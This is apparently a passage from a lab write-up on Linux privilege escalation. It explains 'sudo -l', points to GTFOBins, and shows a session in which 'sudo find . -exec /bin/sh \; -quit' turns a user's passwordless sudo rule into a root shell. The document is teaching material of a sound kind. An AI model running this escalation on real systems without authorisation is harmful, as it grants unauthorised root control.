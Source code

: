 When you run "sudo -l", the system checks the sudoers file to determine what commands the current user is allowed to execute with elevated privileges. The sudoers file is typically located at "/etc/sudoers" or "/etc/sudoers.d/" and is usually edited with the "visudo" command, which provides a syntax check to prevent accidental errors. 
  
The output of "sudo -l" will show a list of allowed commands or rules for the current user, which can include: 
  
Specific commands: The user may have permission to run particular commands with elevated privileges. For example, the output may list commands like "sudo ls" or "sudo apt-get update." 
  
All commands: The user might have unrestricted access to execute any command with "sudo" privileges. 
  
No commands: In some cases, the user might not have any "sudo" privileges, and the output will indicate that there are no allowed commands. 
  
The purpose of "sudo -l" is to allow users to check their own sudo permissions without actually running any commands with elevated privileges. This is particularly useful for users to verify their level of access or when troubleshooting issues related to sudo permissions. 
  
![](https://miro.medium.com/v2/resize:fit:239/0*KF9LtQK_2J8D4ogc) 
  
By running sudo -l we can see all the binaries a user can do. we first run sudo -l 
  
Then we headed to *GTFO and search if one of the binaries can be used to maintain privilege 
  
- [GTFOBins – Unix Privilege Escalation via Binaries](https://gtfobins.github.io)

```bash
$ sudo -l 
Matching Defaults entries for karen on ip-10–10–148–237: 
env_reset, mail_badpass, 
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin 
User karen may run the following commands on ip-10–10–148–237: 
(ALL) NOPASSWD: /usr/bin/find 
(ALL) NOPASSWD: /usr/bin/less 
(ALL) NOPASSWD: /usr/bin/nano 
``` 
  
![](https://miro.medium.com/v2/resize:fit:875/0*undka8G3SNnW9ZvA) 
  
```bash
karen@ip-10–10–58–234:/tmp/ldpreload$ whoami 
karen 
karen@ip-10–10–58–234:/tmp/ldpreload$ id 
uid=1001(karen) gid=1001(karen) groups=1001(karen) 
karen@ip-10–10–58–234:/tmp/ldpreload$ sudo find . -exec /bin/sh \; -quit 
# whoami 
root 
# id 
uid=0(root) gid=0(root) groups=0(root) 
```

# **3. programs with setuid bit on** 
  